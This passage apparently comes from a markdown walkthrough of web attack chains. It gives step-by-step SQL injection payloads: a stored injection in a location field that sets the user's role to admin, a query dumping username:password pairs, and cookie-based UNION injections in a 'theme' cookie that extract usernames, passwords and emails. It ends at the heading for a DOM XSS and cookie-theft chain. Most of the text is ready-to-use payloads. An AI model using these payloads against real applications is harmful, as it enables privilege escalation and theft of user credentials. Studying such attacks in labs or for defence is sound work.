 ### Exploitation Phase
1. Insert an update query in the location field:
   ```
   London'; UPDATE users SET role = 'admin' WHERE id = [your_id]; --
   ```
2. The injection won't execute immediately but will be stored in the database
3. When an admin views profile updates through the admin dashboard, your query executes with admin privileges
4. Wait for background processes or admin actions to trigger the second query
5. Verify if your role has been updated to admin
6. Alternatively, you can extract information:
   ```
   London'; SELECT group_concat(username,':',password) FROM users; --
   ```

## 3. Cookie-Based SQL Injection Chain

**Objective**: Extract sensitive information using SQL injection in cookie values

### Discovery
1. Examine the application for endpoints that might use cookie values
2. The user preferences endpoint uses the theme cookie value
3. Set a test cookie to check for SQL injection:
   ```
   theme=dark'--
   ```
4. Make a request to:
   ```
   GET /api/user-preferences
   ```

### Exploitation
1. Determine the number of columns by testing ORDER BY:
   ```
   theme=dark' ORDER BY 1--
   theme=dark' ORDER BY 2--
   theme=dark' ORDER BY 3--
   ```
2. Once you know the column count, use UNION queries to extract data:
   ```
   theme=dark' UNION SELECT 1,2,3--
   ```
3. Extract sensitive data:
   ```
   theme=dark' UNION SELECT username,password,email FROM users--
   ```
4. Since it's a blind vulnerability, extract information one piece at a time:
   ```
   theme=dark' UNION SELECT username,NULL,NULL FROM users WHERE id=1--
   theme=dark' UNION SELECT password,NULL,NULL FROM users WHERE id=1--
   ```

## 4. DOM-Based XSS and Cookie Theft Chain
